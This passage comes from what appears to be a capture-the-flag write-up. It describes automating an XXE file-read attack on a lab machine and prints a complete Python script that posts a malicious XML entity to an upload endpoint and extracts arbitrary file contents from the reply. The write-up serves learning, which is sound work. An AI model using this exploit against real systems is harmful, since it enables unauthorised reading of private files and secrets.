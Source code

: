 

It does the following:

1.  Start with `file` as existing file read in the xxe file.
2.  At the start of the line, set the new file you want to get.
3.  It then replaces the old file with the new file in `upload.xml`
4.  post the file and grep out the file contents from the response
5.  `tee` the output to the filename in the `loot/` path

### Better Automation: Python Script

In writing this post today, I decided that oneliner was too crude, and I
needed a quick python script. Here's `devoops_get.py`:



    #!/usr/bin/python3

    import re
    import requests
    import sys

    if len(sys.argv) < 2:
        print(f"usage: {sys.argv[0]} [path to file]")
        sys.exit()

    file_name = sys.argv[1]

    xml = f'''<?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY>
      <!ENTITY bar SYSTEM "file://{file_name}">
    ]>

    <item>
    <Author>
    &bar;
    </Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>'''

    files = {'file': ('xxe.xml', xml, 'text/xml')}
    proxies = {'http': 'http://127.0.0.1:8080'}
    try:
        r = requests.post('http://10.10.10.91:5000/upload', files=files, proxies=proxies)
        if r.status_code == 200:
            pattern = re.compile(r"Author: \n(.*)\n Subject:", flags=re.DOTALL)
            print(re.search(pattern, r.text).group(1).strip())
            sys.exit()
        else:
            pass
    except requests.exceptions.ConnectionError:
        pass
    print("[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.")

